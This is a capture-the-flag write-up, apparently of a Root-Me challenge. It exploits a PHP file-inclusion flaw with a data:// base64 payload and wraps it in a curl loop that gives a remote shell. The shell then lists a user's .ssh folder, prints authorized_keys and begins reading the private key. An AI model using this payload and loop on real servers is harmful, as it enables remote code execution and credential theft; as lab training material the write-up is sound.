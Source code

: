 Poking around shows quickly that the rendering is done with a inclusion of file, via the `page` `GET` parameter:

```bash
http://ctf01.root-me.org/0f756638e0737f4a0de1c53bf8937a08/index.php?page=definition.php
```

We can even include non-`PHP` file:

```bash
http://ctf02.root-me.org/0f756638e0737f4a0de1c53bf8937a08/index.php?page=style.css
```

We tried a [two](https://github.com/wireghoul/dotdotpwn) [exploits](https://www.exploit-db.com/exploits/23170/) on this inclusion, but none worked...

Then we discovered that we could use [data:](http://php.net/manual/en/function.include.php#102731) with the `include` function.

The [first example](http://php.net/manual/en/wrappers.data.php) worked on the URL:

```bash
data://text/plain;base64,SSBsb3ZlIFBIUAo=
```

We created a bash script to handle this:

```zsh
while printf "\n> "; read line; do;
    curl -s `
        printf "http://ctf06.root-me.org/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data:text/plain;base64,"
        printf "<?php echo shell_exec('$line'); ?>" | base64
    ` |\
    tr '\n' '\r' | sed -e "s@.*<div id=\"content\">@@g" -e "s@</div>.*@@g" | tr '\r' '\n'
done;
```

Now we have a _shell_ access to the server.

```bash
> ls -la /home/mauk
total 28
drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 .
drwxr-xr-x. 4 root root 4096 Feb 25  2013 ..
-rw-------. 1 mauk mauk   70 Jul  9  2013 .bash_history
-rw-r--r--. 1 mauk mauk   18 Apr 23  2012 .bash_logout
-rw-r--r--. 1 mauk mauk  193 Apr 23  2012 .bash_profile
-rw-r--r--. 1 mauk mauk  124 Apr 23  2012 .bashrc
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .ssh

>  ls -la /home/mauk/.ssh/
total 20
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .
drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 ..
-rw-r--r--. 1 mauk mauk  397 Feb 24  2013 authorized_keys
-rw-r--r--. 1 mauk mauk 1679 Feb 24  2013 id_rsa
-rw-r--r--. 1 mauk mauk  397 Feb 24  2013 id_rsa.pub

> cat /home/mauk/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDmyb+scegJpO2dynsMJIgmVadSD17J+kndzMifXxTWW/llB/T3IZoPFp+5qV2lcI0yjfaZV
Bv1dDtzY3ux1J0COyBKNXRgb8hkZk1HIVLnxglBF1nnBG7p4oCVBWyz8urfPC4GxPw6b/X9wqlWAHe6Q+0oD3szmJLEvVVZZeDoZWgnp/rMiK
j8NkwULE5T1bKXuLyywSgHFCWaBmH2mdhiHCjtF/dFcEl4cOm5zWD6+iXa9E0AteogGUi1LTwyGhNpLRIr6kP3w5TfgzvjlTkyjhOAWNhz54P
vF7DJ25a5Lki4U93F9weS3RxDuF7QBge6TmigIjhxrcHTFxJkgtar mauk@Relativity

> cat /home/mauk/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
```